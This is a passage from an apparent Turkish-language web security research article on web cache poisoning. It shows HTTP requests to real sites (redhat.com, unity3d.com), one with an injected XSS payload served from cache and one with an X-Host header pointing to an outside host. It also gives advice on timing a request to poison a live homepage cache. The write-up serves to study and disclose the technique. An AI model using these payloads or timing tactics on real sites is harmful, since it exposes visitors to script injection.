 <div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET /en?<span style="color:DodgerBlue">onbellekdenemesi<span class="o">=</span>1</span> HTTP/1.1
Host: www.redhat.com
</code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
…
&lt;meta <span class="nv">property</span><span class="o">=</span><span class="s2">"og:image"</span> <span class="nv">content</span><span class="o">=</span><span class="s2">"https://a."</span><span style="color:DodgerBlue"><span class="o">&gt;</span>&lt;script&gt;alert<span class="o">(</span>1<span class="o">)</span>&lt;/script&gt;</span><span class="s2">"/&gt; 
</span></code></pre></div></div>

Görüldüğü gibi farklı bir cihazdan aynı link ziyaret edildiğinde, istekte herhangi bir ek başlık olmamasına rağmen xss yükünün bulunduğu yanıtın önbellekten döndürüldüğünü teyit etmiş olduk.

Kısa bir DNS sorgusu ile www.redhat.com’un aslında [www.redhat.com.edgekey.net](http://www.redhat.com.edgekey.net) adresinin CNAME’i olarak tutulduğunu, dolayısıyla Akamai’nin CDN hizmetini kullanarak cache sunduğunu da teyit edebiliyoruz. 

```bash
$$ nslookup.exe www.redhat.com
Server:  one.one.one.one
Address:  1.1.1.1

Non-authoritative answer:
Name:    e3396.dscx.akamaiedge.net
Addresses:  2a02:26f0:fa00:1a7::d44
          2a02:26f0:fa00:1af::d44
          2.20.169.214
Aliases:  www.redhat.com
          ds-www.redhat.com.edgekey.net
          ds-www.redhat.com.edgekey.net.globalredir.akadns.net
```

### Gizli Zehirlenme

Önceki örnekte sitenin gerçek ziyaretçilerini etkilememek için https://www.redhat.com/en?<span style="color:DodgerBlue">onbellekdenemesi=1</span> adresini zehirleyerek zafiyetin varlığını kanıtladık. Eğer doğrudan ana sayfayı zehirlemek istiyorsak, önbelleğe alınan yanıtın süresi dolduktan hemen sonra bizim zararlı yükü barındıran isteği gönderip bunun önbelleğe alınmasını sağlamamız gerekiyor.

Bunu kaba yoldan veya daha stratejik biçimde gerçekleştirebiliriz. Kaba yol olarak burp intruder veya benzeri bir script yazarak sürekli olarak aynı isteği gönderip, zamanı geldiğinde bu isteğin önbelleğe alınmasını sağlayabiliriz. Fakat bu çoğu durumda rate limit dolayısıyla şüpheli işlem kısıtlamalarına takılacaktır. Bunun yerine cache geçerlilik mekanizmasının nasıl çalıştığını anlayıp tam zamanında isteği göndermek çok daha zarif bir yaklaşım. Eğer yanıtlarda açıkça önbelleğin geçerlilik süresi belirtilmiyorsa bu tespiti gerçekleştirmek biraz zorlayıcı olabilir.

Yine de pek çok websitesi önbellek geçerlilik süresi hakkında yanıtlarda bilgi sunabiliyor.

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET / HTTP/1.1
Host: unity3d.com
<span style="color:DodgerBlue">X-Host: portswigger-labs.net</span>
</code></pre></div></div>
